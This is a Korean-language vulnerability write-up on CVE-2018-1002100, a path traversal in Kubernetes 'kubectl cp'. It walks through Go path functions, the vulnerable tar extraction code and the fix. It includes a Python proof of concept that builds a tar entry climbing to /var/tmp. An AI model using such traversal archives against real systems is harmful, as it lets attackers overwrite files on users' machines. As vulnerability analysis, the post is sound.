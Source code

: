 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|취약한 버전|취약점 종류|취약점 설명|
|:---:|:---:|:---|
|kubernetes: ~v1.9.5|overwrite arbitrary local files|“kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점|

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다. path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

path.join 함수는 입력된 경로들을 탐색했을 때, 나오는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

# Root Cause 분석

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 진입하는 것이 가능하다!

`kubectl cp mongodb:/something ./123`

prefix: something

destFile: ./123

header.Name: 아카이브에 있는 파일/디렉토리 명

outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 쭉쭉 올라가는 모습이다.

baseName: outFileName의 상위 디렉토리 경로

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 그 속엔 파일 하나가 들어있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

파일명에 주목해 보면, 상위 디렉토리로 거슬러 올라가, 파일을 만들어낸다는 것을 알 수 있다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		baseName := path.Dir(outFileName)
		...
}
```

이전 장에서도 봤듯이, header.Name을 그대로 넣어주기 때문에 이를 destFile과 함께 그대로 path.Join해주게 되면, outFileName이 공격자가 원하는 경로로 만들어진다. "../"이 엄청 많은 이유는 어떤 디렉토리에서 cp를 수행해도 루트 디렉토리로 도착하도록 하기 위함이다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, https://nvd.nist.gov/vuln/detail/CVE-2018-1002100

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, https://hansmi.ch/articles/2018-04-openshift-s2i-security